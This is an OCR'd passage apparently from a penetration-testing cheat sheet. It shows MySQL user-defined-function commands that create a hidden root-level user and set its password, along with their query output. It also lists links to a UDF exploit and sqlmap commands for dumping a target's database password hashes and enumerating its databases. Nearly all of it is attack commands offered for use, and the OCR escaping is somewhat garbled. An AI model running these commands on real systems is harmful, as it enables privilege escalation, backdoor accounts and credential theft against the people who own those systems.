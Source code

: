 Query OK, 0 rows affected \(0.06 sec\)

mysql&gt; set @status := &lt;name\_of\_new\_function&gt;\('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username&gt;'\);

Query OK, 0 rows affected \(0.06 sec\)

mysql&gt; set @status := &lt;name\_of\_new\_function&gt;\('echo &lt;new-username&gt;:&lt;chosen-password&gt; \| /usr/sbin/chpasswd'\);

Query OK, 0 rows affected \(0.06 sec\)

or

mysql&gt; select &lt;name\_of\_new\_function&gt;\('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username&gt;'\);

+----------------------------------------------------------------------------------------------------------------------------------------------------------+

\| &lt;name\_of\_new\_function&gt;\('/usr/sbin/useradd -o -u0 -g0 -d /dev/null -s /bin/bash &new-username&gt;'\); \|+----------------------------------------------------------------------------------------------------------------------------------------------------------+

\| 4294967296                                                                                                                                       \| +----------------------------------------------------------------------------------------------------------------------------------------------------------+

1 row in set \(1.70 sec\)

[http://0x80.org/blog/?p=298](http://0x80.org/blog/?p=298)

[http://blog.encription.co.uk/privilege-escalation-using-mysql-user-defined-functions/](http://blog.encription.co.uk/privilege-escalation-using-mysql-user-defined-functions/)

[http://www.0xdeadbeef.info/exploits/raptor\_udf.c](http://www.0xdeadbeef.info/exploits/raptor_udf.c)

[http://bernardodamele.blogspot.com.au/2009/01/command-execution-with-mysql-udf.html](http://bernardodamele.blogspot.com.au/2009/01/command-execution-with-mysql-udf.html)

**SQLMap commands**

cd /pentest/database/sqlmap

Retrieve SQL Banner, current database and current user; test if the user is the db administrator

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" -p &lt;injectable-parameter&gt; --banner --current-db --current-user --is-dba

**Enumerate User Passwords**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --passwords

**List of Databases**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --dbs
